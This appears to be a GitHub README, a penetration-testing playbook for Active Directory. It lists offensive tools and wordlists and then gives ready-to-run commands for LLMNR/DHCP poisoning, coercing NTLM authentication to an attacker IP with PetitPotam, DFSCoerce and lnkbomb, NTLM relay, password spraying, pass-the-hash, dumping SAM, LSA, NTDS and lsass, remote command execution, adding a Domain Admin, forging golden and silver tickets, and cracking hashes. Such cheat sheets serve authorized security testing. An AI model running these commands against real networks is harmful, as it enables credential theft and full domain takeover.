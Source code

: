https://github.com/NotMedic/NetNTLMtoSilverTicket

# Gunnajs-Playbook
How to pentest like a Gunnaj

![alt text](https://github.com/GunzyPunzy/Gunnajs-Playbook/blob/main/anfader.jpg)

# Toolbox
<details>

### NMAP
https://nmap.org/

### linWinPwn - Active Directory Vulnerability Scanner
https://github.com/lefayjey/linWinPwn
<details>
  <summary> Installation </summary> 
  
  #### Install the dependency NetExec
  ```bash
  apt install pipx git
  pipx ensurepath
  pipx install git+https://github.com/Pennyw0rth/NetExec
  ```  
  
  #### Git clone the repository and make the script executable
  ```bash
  git clone https://github.com/lefayjey/linWinPwn
  cd linWinPwn; chmod +x linWinPwn.sh
  ```
  #### Install requirements using the `install.sh` script (using standard account)
  ```bash
  chmod +x install.sh
  ./install.sh
  ```  
</details>

### BloodHound
https://github.com/BloodHoundAD/BloodHound
<details>
  <summary> Installation </summary> 
  
  ```bash
  apt-get install bloodhound
  ```
  ```bash
  neo4j console
  ```
  #### Navigate to http://localhost:7474/ 
</details>

### Responder
https://github.com/lgandx/Responder

### NetExec
https://www.netexec.wiki/
<details>
  <summary> Installation </summary> 

  #### Installation
  ```bash
  apt install pipx git
  pipx ensurepath
  pipx install git+https://github.com/Pennyw0rth/NetExec
  ```
  #### Integrate Bloodhound
  ```bash
  nano ~/.nxc/nxc.conf
  ```
  ```bash
  [BloodHound]
  bh_enabled = True
  bh_uri = 127.0.0.1
  bh_port = 7687
  bh_user = <username>
  bh_pass = <password>
  ```

</details>

### Evil-WinRM
https://github.com/Hackplayers/evil-winrm
<details>
  <summary> Installation </summary>
  
  ```bash
  gem install evil-winrm
  ```
</details>

### FindUncommonShares
https://github.com/p0dalirius/FindUncommonShares

<details>
  <summary> Installation </summary> 
  
  ```bash
  git clone https://github.com/p0dalirius/FindUncommonShares
  ```
</details>

### lnkbomb
https://github.com/dievus/lnkbomb
<details>
  <summary> Installation </summary> 

  #### Install prerequirements
  ```bash
  pip install -r requirements.txt
  ```
  #### Clone this repo
  ```bash
  git clone https://github.com/dievus/lnkbomb
  ```
</details>

### PetitPotam
https://github.com/topotam/PetitPotam

### DFSCoerce
https://github.com/Wh04m1001/DFSCoerce

### Impacket
https://github.com/fortra/impacket

### pypykatz
https://github.com/skelsec/pypykatz
<details>
  <summary> Installation </summary> 

  #### Install prerequirements
  ```bash
  pip3 install minidump minikerberos aiowinreg msldap winacl
  ```
  #### Clone this repo
  ```bash
  git clone https://github.com/skelsec/pypykatz.git
  cd pypykatz
  ```
  #### Install it
  ```bash
  python3 setup.py install
  ```
</details>

### breach-parse
https://github.com/hmaverickadams/breach-parse

### PRET
https://github.com/RUB-NDS/PRET
<details>
  <summary> Installation </summary> 
  
  ```bash
  git clone https://github.com/RUB-NDS/PRET && cd PRET
  ```
  ```bash
  python -m pip install colorama pysnmP
  ```
</details>

</details>

# Wordlists
<details>
  
### Generate wordlist
https://zzzteph.github.io/weakpass/

### Top 10 million
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt (8.1 MB)

### Crackstation
https://crackstation.net/files/crackstation.txt.gz (14.6 GB)

### Large p-list
https://download.g0tmi1k.com/wordlists/large/36.4GB-18_in_1.lst.7z (48.4 GB)

### Rockyou2021
https://github.com/ohmybahgosh/RockYou2021.txt (91.6 GB)
</details>

# Network enumeration
<details>
  <summary> NMAP </summary> 
  
  ### Nmap
  #### Ping scan
  ```bash
  sudo nmap -sP -p -oN <output.txt> <IP/mask>
  ```

  #### Full scan
  ```bash
  sudo nmap -PN -sC -sV -p- -oN <output.txt> <IP/mask>
  ```

  #### smb vuln scan
  ```bash
  sudo nmap -PN --script smb-vuln* -p139,445 -oN <output.txt> <IP/mask>
  ```

  ### Find DC IP
  #### Show domain name and DNS
  ```bash
  sudo mncli dev show eth0
  ```

  #### Show DC IP
  ```bash
  nslookup -type=SRV _ldap._tcp.dc._msdcs.<AD_domain>
  ```

  #### Show DC controllers in cmd
  ```bash
  nltest /dclist:<domainname>
  ```
</details>

# Acitve directory enumeration
<details>
  <summary> linWinPwn </summary> 
  
  ### Unauthenticated
  - Module ad_enum
      - RID bruteforce using crackmapexec
      - Anonymous enumeration using crackmapexec, enum4linux-ng, ldapdomaindump, ldeep
      - Pre2k authentication check on collected list of computers
  - Module kerberos
      - kerbrute user spray
      - ASREPRoast using collected list of users (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Blind Kerberoast
      - CVE-2022-33679 exploit
  - Module scan_shares
      - SMB shares anonymous enumeration on identified servers
  - Module vuln_checks
      - Enumeration for WebDav, dfscoerce, shadowcoerce and Spooler services on identified servers
      - Check for ms17-010, zerologon, petitpotam, nopac, smb-sigining, ntlmv1, runasppl weaknesses
  ```bash
   sudo ./linWinPwn.sh -t <Domain_Controller_IP_or_Target_Domain> -M user <output_dir>
  ```

  ### With AD-user credentials 
  - DNS extraction using adidnsdump
  - Module ad_enum
      - BloodHound data collection
      - Enumeration using crackmapexec, enum4linux-ng, ldapdomaindump, windapsearch, SilentHound, ldeep
          - Users
          - MachineAccountQuota
          - Password Policy
          - Users' descriptions containing "pass"
          - ADCS
          - Subnets
          - GPP Passwords
          - Check if ldap-signing is enforced, check for LDAP Relay
          - Delegation information
      - crackmapexec find accounts with user=pass 
      - Pre2k authentication check on domain computers
      - Extract ADCS information using certipy and certi.py

  - Module kerberos
      - kerbrute find accounts with user=pas
      - ASREPRoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Kerberoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Targeted Kerberoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
  - Module scan_shares
      - SMB shares enumeration on all domain servers using smbmap and cme's spider_plus
      - KeePass files and processes discovery on all domain servers
  - Module vuln_checks
      - Enumeration for WebDav, dfscoerce, shadowcoerce and Spooler services on all domain servers
      - Check for ms17-010, ms14-068, zerologon, petitpotam, nopac, smb-signing, ntlmv1, runasppl weaknesses
  - Module mssql_enum
      - Check mssql privilege escalation paths
  ```bash
  sudo ./linWinPwn.sh -t <Domain_Controller_IP> -u <AD_user> -p <AD_password> -o <output_dir>
  ```
</details>

# MITM
<details>
  <summary> Responder </summary> 
  
  ### Kickstart responder
  ```bash
  responder -I eth0
  ```

  ### Force lm downgrade
  ```bash
  responder -I eth0 --lm
  ```
  
  ### DHCP poisining
  ```bash
  responder -I eth0 -d
  ```
 </details>
 <details>
  <summary> lnkbomb </summary> 
  
  ### Create a lnk file for a share with read/write rights
  ```bash
  python3 lnkbomb.py -t <target_IP> -a <attacker_IP> -s Shared -u <AD_user> -p <AD_password> -n <server_name> --windows
  ```
   
  ### Remove the lnk file
  ```basb
  python3 lnkbomb.py -t <target_IP> -a <attacker_IP> -s Shared -u <AD_user> -p <AD_password> -n <server_name> --windows -r <file_name.url>
  ```
    
</details>
<details>
  <summary> Crackmapexec NTLM-relay </summary>   

  ### Evaluate no smb-signing and create an IP txt file for TLMRelayx
  ```bash
  crackmapexec smb <IPs> --gen-relay-list <outputIPs.txt>
  ```

  ### NTLMRelayx
  ```bash
  sudo python3 ntlmrelayx.py -of <dumofile.txt> -tf <outputIPs.txt> -smb2support
  ```

  ### Disbale SMB and HTTP in Responder.conf
  ```bash
  [Responder Core]

  ; Servers to start
  SQL = On
  SMB = Off
  RDP = On
  Kerberos = On
  FTP = On
  POP = On
  SMTP = On
  IMAP = On
  HTTP = Off
  HTTPS = On
  DNS = On
  LDAP = On
  DCERPC = On
  WINRM = On
  SNMP = Off
  ```

### Kicksart responder then
  ```bash
  sudo responder -I eth0 -dwv
  ```
</details>

<details>
  <summary> PetitPotam </summary> 
  
  ### Force NTLM authentication
  ```bash
  python3 PetitPotam.py -d <Domain_Name> -u <AD_user> -p <AD_password> <attacker_IP> <target_IP>
  ```
</details> 
  
<details>
  <summary> DFSCoerce </summary> 
  
  ### Force NTLM authentication
  ```bash
  python3 dfscoerce.py -d <Domain_Name> -u <AD_user> -p <AD_password> <attacker_IP> <target_IP>
  ```
</details> 

# Password Spraying

<details>
  <summary> NetExec Password spray </summary> 
  
  ### Spray a password on a user list
  ```bash
  netexec smb <Domain_Controller_IP> -u users.txt -p <password> --continue-on-success
  ```

</details>

# Authentication
    
<details>
  <summary> NetExec domain authentication </summary> 
  
  ```bash
  sudo NetExec smb <Domain_Controller_IP> -u <AD_user> -p <AD_password> -H <hash[LM:NT]> 
  ```

</details> 
  
<details>
  <summary> NetExec local authentication </summary> 
  
  ```bash
  NetExec smb <target_IP> -u <username> -H <hash[LM:NT]> --local-auth 
  ```

</details> 

<details>
  <summary> NetExec rdp authentication </summary> 
  
  ```bash
  NetExec rdp <target_IP> -u <username> -H <hash[LM:NT]> --local-auth 
  ```

</details> 

# Share enumeration

<details>
  <summary> List readable or writable shares </summary> 

```bash
NetExec smb <target_IP> -u <username> -p <password>  --shares --filter-shares READ WRITE
```

</details>

<details>
  <summary> List uncommon shares </summary> 

```bash
./FindUncommonShares.py -u <username> -p <password> -d <AD_domain> --dc-ip <Domain_Controller_IP> --check-user-access
```

</details> 

<details>
  <summary> Mount and unmount shares </summary> 

### Mount share
```bash
sudo mount.cifs <//ip/folder> <./folder> -o user=<username>,password=<password>,dom=<AD_domain>
```

### Unmount share
```bash
sudo umount <./folder>
```

### Search for keywords in files
```bash
grep -i <keyword> *
```

</details> 

# Credential dumping

<details>
  <summary> NetExec domain authentication </summary> 

  ### Dump NT:hash with masky with domain user
  #### Get ADCS server name
  ```bash
  sudo NetExec ldap <target_IP> -u <username> -p <password> -H <hash[LM:NT]]> -M adcs
  ```
  #### Retrieve the NT hash using PKINIT
  ```bash
  sudo NetExec ldap <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -M masky -o CA=<'ADCS_server_name'>
  ```
  
  ### Dump SAM with domain user
  ```bash
  sudo NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]]> --sam
  ```
  
   ### Dump LSA with domain user
  ```bash
  sudo NetExec smb <target_IP> -u <username> -p <password> -H <hash_NT]> --lsa
  ```
</details> 

<details>
  <summary> NetExec local authentication </summary> 
  
  ### Dump SAM on local computer
  ```bash
  sudo NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --local-auth --sam
  ```
  
   ### Dump LSA on local computer
  ```bash
  sudo NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --local-auth --lsa
  ```
</details> 

<details>
  <summary> linWinPwn </summary> 
  
### With administrator Account (using password, NTLM hash or Kerberos ticket)
- All of the "Standard User" checks
- Module pwd_dump
    - LAPS and gMSA dump
    - secretsdump on all domain servers
    - NTDS dump using impacket, crackmapexec and certsync
    - Dump lsass on all domain servers using: procdump, lsassy, nanodump, handlekatz, masky 
    - Extract backup keys using DonPAPI, HEKATOMB
```bash
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -d <AD_domain> -u <AD_user> -p <AD_password> -H <hash[LM:NT]> -K <kerbticket[./krb5cc_ticket]> -o <output_dir>
```
</details> 

<details>
  <summary> Examine lsass dump with pypykatz </summary> 

```bash
pypykatz lsa minidump lsass.DMP
```
</details> 

# Remote Code Execution

<details>
  <summary> NetExec </summary> 
  
  ### Executes command via the follwoing protocols: 
  * `wmiexec` executes commands via WMI
  * `atexec` executes commands by scheduling a task with windows task scheduler
  * `smbexec` executes commands by creating and running a service
  
  #### command
  ```bash
  NetExec <protocol> <target_IP> -u <username> -p <password> -H <hash[LM:NT]]> -x <command>
  ```
  #### PowerShell
  ```bash
  NetExec <protocol> <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -X <command>
  ```
</details> 

<details>
  <summary> Evil-WinRM </summary> 
  
  ```bash
  evil-winrm -i <target_IP> -u <username> -p <password> -H <hash[LM:NT]>
  ```
</details> 

<details>
  <summary> Command to add a new Domain Admin </summary> 
  
  ```bash
  'net group "Domain Admins" <username> /add /domain'
  ```
</details> 
  
# golden and silver tickets
#### Get user SID value by using the Windows Terminal
```cmd
wmic useraccount where name="USER" get sid
```

#### Silver ticket
```bash
python3 ticketer.py -nthash <nthash> -domain-sid <domain-sid> -domain <AD_domain> -dc-ip <Domain_Controller_IP> -spn <service>/<AD_domain>l <user>
```
#### Golden ticket
```bash
python3 ticketer.py -nthash <nthash> -domain-sid <domain-sid> -domain <AD_domain> -dc-ip <Domain_Controller_IP> <user>
```
#### Set the ticket for impacket use
```bash
export KRB5CCNAME=<TGS_ccache_file>
```

#### List tickets
```bash
klist
```

#### Execute remote commands with any of the following by using the TGT
```bash
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

# Printers
<details>
  <summary> PRET </summary> 

  ### Nmap printers
  ```bash
  nmap -p 9100 <IP/mask>
  ```
  ### cheat sheet
  ```bash
  http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet
  ```
  ### Kickstart PRET 
  ```bash
  pret.py target {ps,pjl,pcl}
  ```
</details>

## Hash cracking
<details>
  <summary> Hashcat </summary> 
  
  ### LM
  ```bash
  hashcat64.exe -m 3000 -a 3 LM-hashes.txt -o cracked.txt
  ```

  ### NTLM
  ```bash
  hashcat64.exe -m 1000 -a 3 NTLM-hashes.txt -o cracked.txt
  ```

  ### NTLMv1
  ```bash
  hashcat64.exe -m 5500 -a 3 NTLMv1-hashes.txt -o cracked.txt
  ```

  ### NTLMv2
  ```bash
  hashcat64.exe -m 5600 -a 0 NTLMv2-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos ASREP
  ```bash
  hashcat64.exe -m 18200 -a 0 asrep-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS
  ```bash
  hashcat64.exe -m 13100 -a 0 krb5tgs-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS AES128
  ```bash
  hashcat64.exe -m 19600 -a 0 krb5tgsaes128-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS AES256
  ```bash
  hashcat64.exe -m 19700  -a 0 krb5tgsaes256.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 etype 17, Pre-Auth
  ```bash
  hashcat64.exe -m 19800  -a 0 krb5tetype17.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 etype 18, Pre-Auth
  ```bash
  hashcat64.exe -m 19900  -a 0 krb5tetype18.txt <passlist.txt> -o cracked.txt
  ```

  ### MsCache 2 (slow af)
  ```bash
  hashcat64.exe -m 2100 -a 0 mscache2-hashes.txt <passlist.txt> -o cracked.txt
  ```
</details>
